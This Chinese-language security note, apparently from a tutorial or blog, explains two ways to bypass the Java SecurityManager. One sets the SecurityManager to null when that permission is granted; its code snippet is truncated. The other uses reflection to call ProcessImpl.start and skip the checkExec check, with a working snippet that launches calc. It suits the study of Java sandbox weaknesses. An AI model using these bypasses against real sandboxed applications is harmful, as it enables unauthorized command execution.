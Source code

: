 如果sm给了`setSecurityManager`的权限，可以通过将`sm`置为null来绕过。

如这样的java.policy：

```java
grant {
    permission java.lang.RuntimePermission "setSecurityManager";
};
```

绕过：

```java
System.setSecurityManager
```



## 反射绕过SM

如这种情况：

```java
    public Process start() throws IOException {
        //省略部分代码

        SecurityManager security = System.getSecurityManager();
        if (security != null)
            security.checkExec(prog);
        //在这里检查了是否有执行命令的权限

        //省略部分代码
        try {
            return ProcessImpl.start(cmdarray,
                                     environment,
                                     dir,
                                     redirects,
                                     redirectErrorStream);
        }
        //最后调用ProcessImpl.start实现这个功能。
        //省略部分代码
    }
```

在`public`的`start`方法中进行SM的检查，之后调用了`ProcessImpl.start`，但是`ProcessImpl.start`里面并没有SM的检查，可以通过反射直接调用`ProcessImpl.start`（必须在能`accessDeclaredMembers`等的情况下）。

```java
        Class clz = Class.forName("java.lang.ProcessImpl");
        Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        method.invoke(clz,new String[]{"calc"},null,null,null,false);
```




